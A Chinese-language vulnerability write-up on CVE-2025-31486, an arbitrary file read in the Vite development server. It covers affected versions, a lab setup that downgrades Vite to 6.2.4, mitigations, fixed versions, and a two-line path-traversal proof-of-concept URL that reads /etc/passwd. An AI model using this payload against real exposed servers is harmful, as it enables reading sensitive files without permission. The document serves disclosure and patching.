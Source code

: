 # 1、漏洞信息

Vite是一个现代化的前端构建工具，旨在提供更快的开发体验。它通过基于原生ES模块的开发服务器，在开发过程中实现极速热更新（HMR）。Vite在构建时使用了高度优化的打包工具，如esbuild，极大提高了构建速度。它支持多种前端框架（如React、Vue）并可以通过插件扩展功能。Vite的目标是简化前端开发工作流，并提升开发效率。



攻击者通过构造特定的请求路径（如修改为 .svg 文件扩展名并结合其他参数）绕过文件访问限制，暴露任意文件的内容，可能导致敏感信息泄露。该漏洞仅在开发服务器通过--host或server.host配置暴露至网络时，才可能被利用。



# 2、漏洞概述

| 漏洞名称  | 任意文件读取漏洞                                |
| --------- | ----------------------------------------------- |
| 漏洞等级  | 中危                                            |
| CVE编号   | CVE-2025-31486                                  |
| CNVD编号  | 暂无                                            |
| CNNVD编号 | 暂无                                            |
| 其他编号  | 暂无                                            |
| 披露时间  | 2025-04-03                                      |
| 分数      | 5.3                                             |
| CVSS      | CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:H/I:N/A:N    |
| 披露链接  | https://www.cve.org/CVERecord?id=CVE-2025-31486 |



# 3、影响范围

```
6.2.0 <= Vite <= 6.2.4
6.1.0 <= Vite <= 6.1.3
6.0.0 <= Vite <= 6.0.13
5.0.0 <= Vite <= 5.4.16
Vite <= 4.5.11
```



# 4、环境搭建

1、安装node 和 npm

```
# 添加 NodeSource 仓库（安装 18.x 或 20.x 都可以）
curl -fsSL https://deb.nodesource.com/setup_18.x | sudo -E bash -
# 安装 node 和 npm
sudo apt install -y nodejs
# 验证安装
node -v
npm -v
```

![image-20250427172243648](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271722855.png)



2、创建项目

```
npm create vite@latest
```

- 项目名回车默认：vite-project
- 选择框架 Vanilla
- 选择 JavaScript

![image-20250427172359323](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271723392.png)



3、手动降低Vite版本

```
cd vite-project
#手动降级vite到 6.2.4 版本
npm install vite@6.2.4 --save-dev
#查看版本
npx vite -v
```

![image-20250427172633279](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271726349.png)



4、新建 vite.config.js

```
// vite.config.js
export default {
  server: {
    host: true
  }
}
```

![image-20250427172941710](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271729816.png)



5、运行

```
npm install
npm run dev
```

![image-20250427173027804](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271730858.png)



6、浏览器访问

![image-20250427173109653](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271731734.png)



# 5、代码审计

- https://github.com/vitejs/vite/blob/037f801075ec35bb6e52145d659f71a23813c48f/packages/vite/src/node/plugins/asset.ts#L285-L290
- https://github.com/vitejs/vite/commit/62d7e81ee189d65899bb65f3263ddbd85247b647



# 6、漏洞复现

将POC附加到 URL，可以绕过此限制并检索文件的内容

```
?.svg?.wasm?init
/@fs/x/x/x/vite-project/?/../../../../../etc/passwd?import&?raw
```

![image-20250427154859583](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271548709.png)

![image-20250427173458353](https://cdn.jsdelivr.net/gh/xmtxsec/picture/imgl/202504271735227.png)



# 7、解决方案

## 7.1、临时缓解方案

如果暂时无法升级，可以采取以下措施降低风险：

限制网络访问：避免使用 `--host` 或设置 `server.host` 为 `localhost`，确保开发服务器仅限本地访问。

严格文件权限：确保敏感文件不可被 Vite 进程读取（例如通过操作系统权限控制）。



## 7.2、升级修复方案

Vite 官方已发布安全补丁，修复版本包括：

```
Vite >= 6.2.5
6.1.4 <= Vite < 6.2.0
6.0.14 <= Vite < 6.1.0
5.4.17 <= Vite < 6.0.0
4.5.12 <= Vite < 5.0.0
```

请尽快通过 `npm update vite` 或手动升级到以上版本以修复漏洞。



# 8、POC

```
?.svg?.wasm?init
/@fs/x/x/x/vite-project/?/../../../../../etc/passwd?import&?raw
```



# 9、参考链接

https://github.com/vitejs/vite/security/advisories/GHSA-xcj6-pq6g-qj4x